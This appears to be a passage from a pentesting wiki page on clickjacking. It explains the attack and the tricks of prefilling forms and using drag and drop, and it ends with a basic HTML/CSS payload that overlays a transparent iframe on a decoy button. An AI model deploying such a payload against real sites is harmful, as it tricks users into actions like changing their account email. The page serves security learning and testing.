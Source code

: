 # Clickjacking





<figure><img src="../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
Use [**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_term=trickest&utm_content=clickjacking) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=clickjacking" %}

## What is Clickjacking

In a clickjacking attack, a **user** is **tricked** into **clicking** an **element** on a webpage that is either **invisible** or disguised as a different element. This manipulation can lead to unintended consequences for the user, such as the downloading of malware, redirection to malicious web pages, provision of credentials or sensitive information, money transfers, or the online purchasing of products.

### Prepopulate forms trick

Sometimes is possible to **fill the value of fields of a form using GET parameters when loading a page**. An attacker may abuse this behaviour to fill a form with arbitrary data and send the clickjacking payload so the user press the button Submit.

### Populate form with Drag\&Drop

If you need the user to **fill a form** but you don't want to directly ask him to write some specific information (like the email and or specific password that you know), you can just ask him to **Drag\&Drop** something that will write your controlled data like in [**this example**](https://lutfumertceylan.com.tr/posts/clickjacking-acc-takeover-drag-drop/).

### Basic Payload

```markup
<style>
   iframe {
       position:relative;
       width: 500px;
       height: 700px;
       opacity: 0.1;
       z-index: 2;
   }
   div {
       position:absolute;
       top:470px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://vulnerable.com/email?email=asd@asd.asd"></iframe>
```
